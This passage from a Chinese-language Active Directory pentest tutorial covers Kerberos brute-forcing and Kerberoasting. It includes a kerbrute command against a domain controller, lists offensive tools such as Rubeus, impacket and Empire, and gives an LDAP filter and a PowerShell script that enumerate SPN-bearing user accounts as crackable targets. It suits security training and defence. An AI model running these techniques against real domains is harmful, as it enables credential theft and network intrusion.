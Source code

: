 请注意，kerberos暴力破解会产生大量网络流量，容易被设备甄别，建议使用在已知密码的情况下

```powershell
tools:
https://github.com/GhostPack/Rubeus#brute
https://github.com/ropnop/kerbrute
https://github.com/TarlogicSecurity/kerbrute
https://github.com/Zer1t0/cerbero#brute

python kerbrute.py -domain contoso.local -users users.txt -passwords passwords.txt -dc-ip 192.168.100.2
```



#### Kerberoast



众所周知，Services Ticket (也称TGS Ticket)是由目标服务的账户NT hash进行加密的

域用户可以为任何服务向域控制器请求一个TGS。**检查访问权限不是域控制器的职责**。当要求提供Services Ticket时，域控制器的唯一目的是提供与用户有关的安全信息（通过PAC）。服务必须通过阅读Services Ticke中提供的PAC来检查用户的权限。

我们可以通过指定特定的SPN来进行KRB-TGS-REQ请求。如果这些SPN在活动目录中注册，域控制器将提供一个用执行服务的账户的NT hash作为密钥加密的Services Ticket。有了这些信息，攻击者现在可以尝试通过暴力攻击恢复该账户的明文密码。

虽然大多数服务账户是由机器账户启动的，但是有一部分服务也是由AD用户执行的，机器账户的密码是随机的，且每30天变更一次，但是AD用户的密码是人为决定的，而且为了服务的稳定性，他们经常被设置为**不更改密码**。而这些账户，就是Kerberoast的攻击目标

LDAP过滤器:

```ldap
&(objectCategory=person)(objectClass=user)(servicePrincipalName=*)
```



这里是一个简单的PowerShell脚本，用于检索至少有一个SPN的用户

```powershell
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results = $search.Findall()
foreach($result in $results)
{
	$userEntry = $result.GetDirectoryEntry()
	Write-host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"
	Write-host "SPNs"        
	foreach($SPN in $userEntry.servicePrincipalName)
	{
		$SPN       
	}
	Write-host ""
}
```

还有其他工具可以使用

```
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
https://github.com/GhostPack/Rubeus#kerberoast
```
